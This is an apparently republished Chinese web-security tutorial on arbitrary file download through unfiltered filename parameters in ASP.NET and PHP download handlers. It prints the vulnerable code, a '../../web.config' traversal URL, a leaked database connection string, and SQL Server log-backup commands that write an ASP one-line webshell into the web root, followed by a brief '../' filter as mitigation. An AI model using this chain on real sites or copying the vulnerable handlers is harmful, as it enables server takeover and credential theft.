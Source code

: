 # Web 文件操作脆弱性-----下载文件功能

> 原文：[`www.pediy.com/kssd/pediy12/142157.html`](https://www.pediy.com/kssd/pediy12/142157.html)

Web 脆弱性有很多种，本人也无法穷尽，本文主要是讲一下 web 站点实现下载文件中可能存在的问题。技术性比较差，大牛请飘过…
对于 web 实现下载文件功能的方法有很多种，其中有一种方法直接将文件以字节流形式，发送给客户端，而文件的路径是通过参数传入，如果此时对传入参数没有进行过滤，则可能导致下载任意文件。
该功能的 asp.net 代码类似如下形式：
try
{
string filename = HttpUtility.UrlDecode(Request.QueryString["filename"].ToString());
string filePath = Server.MapPath("upfile/" + filename);//路径
//以字符流的形式下载文件
System.IO.FileStream fs = new FileStream(filePath, FileMode.Open);
byte[] bytes = new byte[(int)fs.Length];
fs.Read(bytes, 0, bytes.Length);
fs.Close();
Response.ContentType = "application/octet-stream";
//通知浏览器下载文件
Response.AddHeader("Content-Disposition", "attachment;   filename=" + HttpUtility.UrlEncode(fs.Name, System.Text.Encoding.UTF8));
Response.BinaryWrite(bytes);
Response.Flush();
Response.End();
}
catch
{
Response.Write("<script>alert('资料不存在！');history.back();</script>");
return;
}
上述代码没有对 filename 参数进行过滤，导致可以下载任意文件.这个脆弱性对于 asp.Net 站点是非常致命，因为在 asp.net 站点下有网站的配置文件 web.config，通常该文件中保存着连接数据库的用户名和密码，如果获得此信息，并且远程数据库可以远程访问，那么就可以直接登录远程数据库，通过数据库的差异备份等功能就可以获得 webshell.下面简单操作一下这个过程：
首先下载网站配置文件 web.config
http://www.example.org/DownLoadFileLow.aspx?FileName=../../web.config
由于下载路径通常不是网站的根目录需要使用../回溯到网站的根目录，具体是几级回溯，需要根据具体的网站而定，这个只能是尝试，本人没有想出好的方法.
打开配置文件获得数据库连接字符串：
<add key="ConnectionStringSQL"
 value="server=www.example.org;database=Dbicid2011;uid=Dbicid2011;pwd=ici48736;initial catalog=Dbicid2011" />
登录到远程数据库，使用 log 备份获得一句话木马：
use Dbicid2011--
drop table cmd--
alter database Dbicid2011 set recovery full--
create table cmd (a image)--
backup log Dbicid2011 to disk='D:\domains\icid2011\wwwroot\datafiles\RegistrationFiles\cmd.bak' with init --
insert into cmd (a) values(0x3C256578656375746520726571756573742822636D64222920253E)--<%execute request("cmd") %>
backup log Dbicid2011 to disk='D:\domains\icid2011\wwwroot\yxy.asp'
(注：至于如何根据数据库获得 web 的绝对目录，就不再赘述)这样就完成了一次简单的渗透过程.

漏洞危害：
此漏洞危害是不言而喻的,即使远程数据库是内网数据库或者不能远程连接，该漏洞也可以使得攻击者下载任意 web 源文件.大大降低攻击的难度。

防范方法：
对于防范其它很简单，正常的 filename 参数中是不会包含../字符，（因为大部分情况下载文件在单独的一个目录中，不是网站的根目录，要想下载任意文件必须使用../回溯）只要检查参数中是否包含../，如果包含基本上就可以肯定是非法请求，直接提示，拒绝下载即可。

上述只是以 asp.net 为例，其实对于其它脚本也是一样，如 php 脚本实现该功能代码如下：
<?php
// downloading a file
$filename = $_GET['filename'];
header("Pragma: public");
header("Expires: 0"); // set expiration time
header("Cache-Control: must-revalidate, post-check=0, pre-check=0"); 
header("Content-Type: application/force-download");
header("Content-Type: application/octet-stream");
header("Content-Type: application/download");
header("Content-Disposition: attachment; filename=".($filename).";");
header("Content-Transfer-Encoding: binary");
header("Content-Length: ".filesize($filename));
readfile("$filename"); 
echo basename($filename);
exit();
?>
基本功能类似，同样存在该问题，但是 php 的数据库连接文件不是固定的，需要下载几个文件才能找到，并且一般站点的 mysql 不允许远程连接，与上面的渗透方式有些不同，但是也可以下载源码或者系统其它配置信息，危害也已经很大了。具体的渗透过程和防范方法与上面类似，再此不在赘述。